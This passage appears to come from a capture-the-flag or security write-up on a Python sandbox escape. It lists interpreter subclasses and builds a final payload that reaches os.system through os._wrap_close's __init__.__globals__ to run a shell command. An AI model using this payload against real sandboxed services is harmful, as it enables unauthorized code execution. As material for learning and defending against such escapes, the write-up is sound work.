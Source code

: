```py
<class 'zipimport._ZipImportResourceReader'>,
<class 'codecs.Codec'>,
<class 'codecs.IncrementalEncoder'>,
<class 'codecs.IncrementalDecoder'>,
<class 'codecs.StreamReaderWriter'>,
<class 'codecs.StreamRecoder'>,
<class '_abc_data'>,
<class 'abc.ABC'>,
<class 'dict_itemiterator'>,
<class 'collections.abc.Hashable'>,
<class 'collections.abc.Awaitable'>,
<class 'collections.abc.AsyncIterable'>,
<class 'async_generator'>,
<class 'collections.abc.Iterable'>,
<class 'bytes_iterator'>,
<class 'bytearray_iterator'>,
<class 'dict_keyiterator'>,
<class 'dict_valueiterator'>,
<class 'list_iterator'>,
<class 'list_reverseiterator'>,
<class 'range_iterator'>,
<class 'set_iterator'>,
<class 'str_iterator'>,
<class 'tuple_iterator'>,
<class 'collections.abc.Sized'>,
<class 'collections.abc.Container'>,
<class 'collections.abc.Callable'>,
<class 'os._wrap_close'>,
<class '_sitebuiltins.Quitter'>,
<class '_sitebuiltins._Printer'>,
<class '_sitebuiltins._Helper'>]
```

After obtaining the list of all the classes, I proceeded to search for the common classes that can be leveraged to achieve RCE, such as `<class 'subprocess.Popen'>`. While many of the common classes aren't there, luckily there is `<class 'os._wrap_close'>` that can be used. It's fourth from the end in our list, so we can access it by the index `-4`.

```py
print(''.__class__.__mro__[1].__subclasses__()[-4])

<class 'os._wrap_close'>
```

To run a shell command, we can access the `__init__` method's global namespace (`__globals__` attribute) and retrieve the `system` function, which is our goal function that can be used to run shell commands.

The final payload looks like this:

```py
print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['system']('ls -la'))
```

